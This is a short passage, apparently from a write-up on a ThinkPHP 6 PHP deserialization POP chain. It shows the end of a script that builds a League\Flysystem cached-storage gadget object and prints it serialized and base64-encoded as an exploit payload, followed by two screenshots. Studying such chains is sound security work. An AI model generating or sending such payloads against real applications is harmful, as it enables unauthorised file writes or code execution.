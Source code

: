 ```php
    class Local {
        protected $writeFlags = 0;
    }
}

namespace {
    $local = new League\Flysystem\Adapter\Local();
    $cache = new League\Flysystem\Cached\Storage\Adapter($local);
    echo base64_encode(serialize($cache));
}
?>
```
<img src="./images/tp6-pop-3-7.png" alt="">

<img src="./images/tp6-pop-3-8.png" alt="">
